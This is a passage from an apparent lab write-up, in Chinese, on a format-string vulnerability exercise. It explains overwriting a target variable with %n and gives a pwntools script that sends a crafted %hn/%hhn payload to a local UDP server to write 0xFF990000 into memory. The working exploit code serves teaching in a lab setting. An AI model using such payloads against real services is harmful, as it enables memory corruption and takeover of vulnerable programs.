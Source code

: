 要使变量`target`的值被覆盖为`0x500`，需进行一次性覆盖，否则若单字节覆盖会因为`\x00`而使payload被截断。

故采用`%n`进行操作。

结果如下

![task5B](../images/lab5-task5B.png)

### 	Task 5.C: Change the value to 0xFF990000

脚本如下

```python
from pwn import *

io = remote("127.0.0.1",9090,typ='udp')

# 0x3344 -> 0x0000
payload = "%26$hnaa" + p32(0x0804a040)

# 0x22 -> 0x99
payload += p32(0x0804a040+2)
payload += p32(0x0804a040+3)
payload += "%{}c".format(0x99-len(payload)+6)
payload += "%27$hhn"

#0x11 -> 0xff
payload += "%{}c".format(0xff-0x99)
payload += "%28$hhn"

print payload
io.sendline(payload)

io.interactive()
```

由于目标值为`0xff990000`，低两个字节均为0，故在payload开头就使用`%26$hn`,由于`%n`前面没有任何字符，故低两个字节被覆盖为0。	
